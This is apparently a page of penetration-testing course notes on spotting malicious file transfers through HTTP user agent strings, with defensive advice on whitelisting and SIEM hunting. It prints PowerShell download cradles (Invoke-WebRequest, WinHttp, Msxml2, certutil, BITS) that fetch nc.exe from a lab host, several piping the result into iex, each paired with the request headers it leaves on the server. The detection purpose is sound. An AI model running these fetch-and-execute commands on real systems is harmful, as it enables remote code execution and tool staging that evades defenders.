 ```yaml
---
category: Uncategorized
tags: []
---
```

# Detection
Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command-lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting of any unusual command-lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the HTTP protocol. There is a need for interoperability amongst different web server and web browser types to ensure that users have the same experience no matter the browser they are using. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which HTTP client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an HTTP client and connecting to a web server via HTTP can have a user agent string (i.e., cURL, a custom Python script, or common tools such as sqlmap, or nmap).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows update and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform some malicious action. This website is very useful for identifying common user agent strings. A list of user agent strings is available here.

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common HTTP transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

## Invoke-WebRequest - Client
````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
````
## Invoke-WebRequest - Server
````http
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
````
## WinHttpRequest - Client
````powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
````
## WinHttpRequest - Server
````http
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
````
## Msxml2 - Client
````powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
````
## Msxml2 - Server
````http
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
````
## Certutil - Client
````powershell
PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
````
## Certutil - Server
````http
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
````
## BITS - Client
````powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
````
## BITS - Server
````http
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
````
